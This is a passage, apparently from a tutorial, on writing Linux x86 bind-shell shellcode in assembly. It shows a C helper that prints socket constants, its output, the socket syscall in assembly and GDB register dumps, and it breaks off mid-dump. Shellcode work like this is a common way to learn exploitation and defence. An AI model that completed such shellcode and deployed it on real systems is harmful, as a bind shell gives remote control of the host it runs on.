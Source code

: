 ```
Each one of these steps seems pretty simple to implement in assembly using ‘mov’ to place the correct values in the registers and ‘int 0x80’ to execute the syscall. The only information missing are the actual values for AF_INET and SOCK_STREAM, in C these are already defined with their integer values however, here we need the raw integer value.

The easiest way to get these values would have been to ask my good friend Google. He seems pretty knowledgeable but instead I thought I might as well utilise the C types and dump their raw value.

```
#include <stdio.h>
#include <sys/socket.h>

int main(void){
        printf("AF_INET: %d\n", AF_INET);
        printf("SOCK_STREAM: %d\n", SOCK_STREAM);
        return 0;
}
```

Compile and run:

```
root@kali:~/Documents/bindshell/misc# gcc test.c 
root@kali:~/Documents/bindshell/misc# ./a.out 
AF_INET: 2
SOCK_STREAM: 1
```

Now we have all the required information, we can set up our target registers correctly and perform our first system call to socket. Looking back at our pseudo code above, we can translate it into the following x86 assembly:

```
; SOCKET SYSCALL
; set up the registers
mov eax, 0x167
mov ebx, 0x2
mov ecx, 0x1

int 0x80              ;  execute the syscall
mov edi, eax          ;  store the return value in edi for future ref
; above pinched from h0mbre_
```

We set EAX to equal 0x167 (359), this is the value used later when the ‘int 0x80’ instruction is hit, which performs the actual syscall to socket. We now want to set up the EBX and ECX registers to hold the parameter values for our call. We set EBX to equal 0x2 (value of AF_INET), and ECX to 0x1 (value of SOCK_STREAM). We can now execute our system call.

Registers before the call:

```
gef➤  i r
eax            0x167               0x167
ecx            0x1                 0x1
edx            0x0                 0x0
ebx            0x2                 0x2
```

Registers after the call:

```
gef➤  i r
eax            0x3                 0x3
ecx            0x1                 0x1